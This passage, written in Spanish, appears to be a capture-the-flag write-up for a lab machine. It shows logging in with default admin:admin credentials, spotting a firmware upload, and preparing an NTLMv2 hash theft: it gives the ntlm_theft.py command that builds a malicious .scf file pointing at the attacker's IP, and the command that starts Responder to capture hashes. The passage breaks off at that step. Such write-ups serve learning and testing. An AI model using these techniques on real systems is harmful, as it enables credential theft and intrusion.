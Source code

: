 

### Reconocimiento del puerto 80

Al acceder al puerto 80 nos encontramos el siguiente panel de autenticación:

![recon1](https://user-images.githubusercontent.com/55555187/155534519-1d3f712f-34c7-4246-aa6f-5723dfeb335b.PNG)

Pruebo con las credenciales **admin:admin** y obtengo acceso a la siguiente web:

![recon4](https://user-images.githubusercontent.com/55555187/155536979-3920ea13-09a8-4cd2-bc88-cf67f504c263.PNG)

Investigando un poco la web podemos ver que tenemos una potencial vía de subir archivos:

![recon5](https://user-images.githubusercontent.com/55555187/155537175-af88708a-57b5-4783-8a0a-e4f96fa4ae1b.PNG)

Otra cosa que me llama la atención de esa vista es que en el mensaje pone que el firmware es subido al fichero compartido y será revisado por un miembro del equipo de pruebas.

Esto me hace pensar varias cosas:

- Cuando subo un archivo a la web, esta lo envía al directorio de SMB.

- Quizás tengamos que acceder a los archivos compartidos en SMB de alguna manera para abrir el fichero y otorgarnos una reverse shell.

- Quizás tenemos que aprovecharnos de que en teoría un miembro del equipo va a abrir el fichero.

Pruebo a subir una reverse shell pero no obtengo nada como era de esperar por lo que me pongo a investigar posibles vías de explotar esta posible vía de entrada.

## Obtención de acceso

Tras investigar durante un tiempo encuentro el siguiente articulo: [hackinarticles](https://www.hackingarticles.in/multiple-files-to-capture-ntlm-hashes-ntlm-theft/) donde se explica cómo obtener el hash **NTLMv2** a través de la inyección de comandos en un fichero.

Para poder llevar a cabo este exploit necesitamos:

- Una potencial vía de enviar el archivo.

- Que el archivo sea abierto por un usuario.

Por lo que parece prometedor ya que cumplimos ambas condiciones.

1- Me descargo el archivo ntlm_theft.py del repositorio [NTLM Theft](https://github.com/Greenwolf/ntlm_theft) y creo un archivo de tipo **.scf** (scf es la extensión para Windows Explore Command).

```
python3 ntlm_theft.py -g scf -s 10.10.16.37 -f test
```

![recon8](https://user-images.githubusercontent.com/55555187/155547317-4e959524-c5b4-43e8-a109-c08559d0a6b5.PNG)

2- En una terminal inicio un **responder** (un responder es un conjunto de servidores desplegados y a la espera de recibir peticiones) sobre la interfaz tun0 (la interfaz de la vpn).

```
responder -I tun0
```
